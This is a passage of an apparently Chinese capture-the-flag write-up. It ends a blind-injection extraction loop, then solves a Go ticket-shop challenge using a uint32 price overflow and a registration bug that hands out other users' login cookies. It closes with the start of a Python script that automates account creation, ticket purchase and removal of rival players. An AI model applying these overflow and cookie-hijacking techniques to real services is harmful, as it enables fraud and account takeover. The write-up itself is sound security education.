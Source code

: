 ```python
			text = r.text.replace("\n","")
			text = text.replace("\r","")
			text = text.replace("\t","")
			# print("["+str(i)+"]" + payload)
			# print("[text] " + text[:10])
		except:
			flag+=chr(int(i))
			print(flag)
			break


```





### [210pt] 大吉大利，今晚吃鸡

很迷很尬的一道题，最后小手段才做出来。

首先，很容易可以看出来，是一个go写的。

而且买票时，票价只可以多 ，不可以少。此时可以猜到是溢出，从而实现购买。

可以看一下，go中的数字范围。然后天真的从大往小试。最终卡在了以下俩数。

```
9223372036854775807   // 可以输入，显示正常
9223372036854775808   // 报500，无法输入
```


![20190413155515397624591.png](https://xzfile.aliyuncs.com/media/upload/picture/20190419014934-53a0ab20-6202-1.png)

于是自己天真的认为 ，题目对溢出做了判断，然后就凉了。蜜汁分析了半天。

最后再注册处发现一个越权漏洞。每次注册，无论成功与否，都会返回注册用户的cookie，此时可以直接登录。

![20190413155515437376035.png](https://xzfile.aliyuncs.com/media/upload/picture/20190419014934-53c23aec-6202-1.png)

于是看了一下榜单，挨个试了一下榜单师傅们的id。

最后还真找到了rmb122师傅的账号，然后发现他用的4294967296溢出。也就是uint32

心态炸了。竟然不是uint64，自己也没试uint32。哭了。

此时通过溢出，可以直接购票。然后我们进入下一关，如何删除竞争对手。一说到游戏，顿时想起了“白导”。我自己也导演一场呗。

于是，新建账号 -> 买票 -> 付款 -> 加入游戏 -> 获取id踢掉。一条龙服务。脚本如下：

```python
import requests
import random
import time

tmpID = "1"

tmpSession = requests.session()

registerURL = "http://117.51.147.155:5050/ctf/api/register?name=5am3_t1{name}&password=12345678aa90"
buyTicketURL = "http://117.51.147.155:5050/ctf/api/buy_ticket?ticket_price=4294967296"
payTicketURL = "http://117.51.147.155:5050/ctf/api/pay_ticket?bill_id={bill}"
removeRobotsURL = "http://117.51.147.155:5050/ctf/api/remove_robot?id={uid}&ticket={ticket}"

headers = {
	"Cookie": "REVEL_SESSION=367aac22fa4d096ee5e45e5e214071cf; user_name=5am3"
}

def getTicket(tmpID):
```